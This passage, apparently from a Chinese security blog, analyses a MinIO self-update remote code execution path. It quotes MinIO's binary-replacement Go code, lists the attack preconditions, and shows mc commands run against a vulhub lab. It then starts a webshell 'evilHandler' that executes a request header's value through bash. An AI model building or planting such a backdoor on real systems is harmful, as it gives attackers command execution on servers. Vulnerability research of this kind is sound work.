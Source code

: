 ```go
		// binary to take its place. That means there is no file where the current executable binary
		// used to be!
		// Try to rollback by restoring the old binary to its original path.
		rerr := os.Rename(oldPath, targetPath)
		if rerr != nil {
			return &rollbackErr{err, rerr}
		}

		return err
	}

	// move successful, remove the old binary if needed
	if removeOld {
		errRemove := os.Remove(oldPath)

		// windows has trouble with removing old binaries, so hide it instead
		if errRemove != nil {
			_ = hideFile(oldPath)
		}
	}

	return nil
}
```

![image-20230511154906276](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305111549346.png)

最后发送 serviceRestart 信号重启整个集群

综上, 要想实现自更新 RCE, 需要满足以下几个条件

- 准备好符合命名格式的恶意二进制文件和对应的 sha256sum 文件
- 文件名称中的版本日期必须大于目标 MinIO 的版本
- 目标系统没有在环境变量中配置 `MINIO_UPDATE_MINISIGN_PUBKEY`
- 因为自更新需要替换整个二进制文件并重启, 所以需要二开官方的 MinIO, 在里面加入一个 webshell

注意**更新**这个操作在实战环境中会有一定的风险, 所以我们需要基于目标当前版本的 MinIO 进行二开

使用 mc 可以获取到目标 MinIO 的版本

```bash
mc alias set minio http://127.0.0.1:9000/ minioadmin minioadmin-vulhub
mc admin info minio
```

![image-20230511161628964](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305111616114.png)

下载好对应的源码, 在 routers.go 里面加一个 evil handler

```go
package cmd

import (
	"net/http"
	"os/exec"
)

func evilHandler(h http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		cmd := r.Header.Get("Cmd")
		if cmd != "" {
			p := exec.Command("bash", "-c", cmd)
			output, _ := p.Output()
			w.Write([]byte(output))
		} else {
			h.ServeHTTP(w, r)
```